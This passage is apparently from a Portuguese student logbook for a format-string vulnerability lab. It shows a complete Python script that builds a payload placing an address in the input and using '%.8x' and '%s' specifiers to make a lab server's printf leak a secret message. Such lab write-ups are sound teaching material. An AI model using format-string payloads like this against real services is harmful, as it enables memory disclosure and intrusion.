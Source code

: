 
*Figura 7 e 8: Print da consola do container, exibindo o conteúdo da stack e a confirmação do identificador 0xdeadbeef, indicando que o offset correto foi encontrado.*

#### Task 2.B: Heap Data

Nesta tarefa, modificamos os primeiros 4 bytes do input, substituindo-os pelo endereço da mensagem secreta 0x080b4008, que foi exibido na saída do servidor na etapa anterior ("The secret message's address: 0x080b4008"). Alteramos o último especificador de formato de %x para %s para que a função printf interprete o conteúdo desse endereço como uma string, permitindo exibir a mensagem secreta.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "\n %s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
Compilámos o script build_string.py e enviámos o payload para o servidor:

![Figura 9](/Images/LOGBOOK6/Task2B_image1.png)

Observámos a consola do container para verificar o output da stack. Verificámos se ao enviar o payload, o servidor respondia com a mensagem secreta.
